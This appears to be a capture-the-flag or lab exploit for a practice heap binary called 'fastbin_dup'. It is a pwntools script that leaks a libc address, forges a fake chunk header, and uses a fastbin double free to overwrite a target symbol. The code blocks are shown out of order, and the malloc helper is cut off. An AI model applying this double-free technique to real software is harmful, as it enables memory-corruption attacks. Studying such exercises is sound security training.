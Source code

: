 ```python

def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', f'{index}'.encode())
    io.recvuntil(b'> ')
        
    
io = start()
io.recvuntil(b'puts() @ ')

puts_leak = int(io.recvline(), 16)
send_name(p64(0) + p64(0x31))
info("puts in libc: " + hex(puts_leak))

chunk_A = malloc(0x28, b'a'*0x28)
chunk_B = malloc(0x28, b'b'*0x28)

free(chunk_A)
free(chunk_B)
free(chunk_A)

dup = malloc(0x28, p64(elf.sym['user']))

malloc(0x28, b'c'*0x28)
malloc(0x28, b'd'*0x28)
malloc(0x28, b'You win')

io.interactive()
```

shell.py
```python
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./fastbin_dup', checksec=False)

libc = elf.libc

gs = """
b *main
b *main+319
b *main+492
b *main+598
"""

index = 0

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)
    
def send_name(name):
    io.sendafter(b'Enter your username: ', name)

def malloc(size, data):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', f'{size}'.encode())
```